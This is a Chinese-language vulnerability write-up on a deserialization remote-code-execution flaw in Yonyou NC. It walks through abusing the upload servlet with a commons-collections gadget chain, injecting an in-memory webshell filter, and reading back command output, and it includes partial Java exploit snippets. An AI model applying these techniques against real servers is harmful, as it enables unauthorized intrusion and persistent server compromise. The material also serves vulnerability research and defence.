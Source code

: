 # 用友 NC 反序列化RCE漏洞

## 漏洞描述

用友NC 存在反序列化 RCE漏洞，攻击者可利用控制服务器

## 漏洞影响

> [!NOTE]
>
> 用友 NC

## 漏洞复现

首先从任意文件上传说起

任意文件上传分析代码在`servlet.FileReceiveServlet`。在这里我们可以看到，从请求中读取流，然后转换为map类型并读取上传文件的路径。然后再读取待上传的文件。

![](http://wikioss.peiqi.tech/vuln/yongyou-6.png)

而网上很多poc，大多都是基于此漏洞，利用反序列化上传一个文件到服务器。

这也就是去年的那个任意文件上传的反序列化漏洞。但是，但是，这个漏洞本质是一个反序列化漏洞。而且某C的classpath中，也存在apache commonscollections库，我们可以利用这个库，直接执行命令或者内存马。岂不是比任意文件上传舒服多了。

**内存马**

老样子，在反序列化中想执行任意代码，一般都依靠xalan这个库。这次也不例外。

植入内存马，关键在于我们怎样找到context，只有找到context，我们才可以添加filter。好在某c中，我们只需要通过下面的代码既可以获取当前context，不需要从tomcat中获取context

```java
 Object obj = 改动Locator.getInstance().lookup("ServletContext");
        Field contextField = obj.getClass().getDeclaredField("context");
        contextField.setAccessible(true);
        obj = contextField.get(obj);
        Field contextField1 = obj.getClass().getDeclaredField("context");
        contextField1.setAccessible(true);
        addFitlertoTomcat(contextField1.get(obj));
```

剩下的就是常规操作，可以看我之前的内存马模型，基本不需要很大的改动即可完美适配。

![](http://wikioss.peiqi.tech/vuln/yongyou-7.png)

**回显**

我们只需要找到这样一个servlet，即存在反序列化的readObject，又将错误信息写入到response中

不难看出 uploadServlet 就很满足这个需求。

```
out = new ObjectOutputStream(output);
            in = new ObjectInputStream(request.getInputStream());
            String dsName = (String)in.readObject();
            }
        } catch (Exception var14) {
            var14.printStackTrace();
            if (out == null) {
                throw new ServletException(var14);
            }

            out.writeObject(var14);
```

如果出错的话，将错误信息通过序列化写入到response中。好处在于，我们不需要麻烦的去找tomcat的response对象。

所以，我们将反序列化的payload，发送给uploadServlet即可。然后我们只需要读取响应，即可拿到服务器命令执行的回显结果。客户端代码可以这样写

```java

        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(r));
        Exception e = (Exception) objectInputStream.readObject();
        Object obj = e.getCause();
        Field targetF = obj.getClass().getDeclaredField("target");
        targetF.setAccessible(true);
        obj = targetF.get(obj);
        Field msgF = obj.getClass().getSuperclass().getDeclaredField("detailMessage");
        msgF.setAccessible(true);
        String msg = msgF.get(obj).toString();
        System.out.println(msg);
```

## 参考文章

https://mp.weixin.qq.com/s/IdXYbjNVGVIasuwQH48Q1w


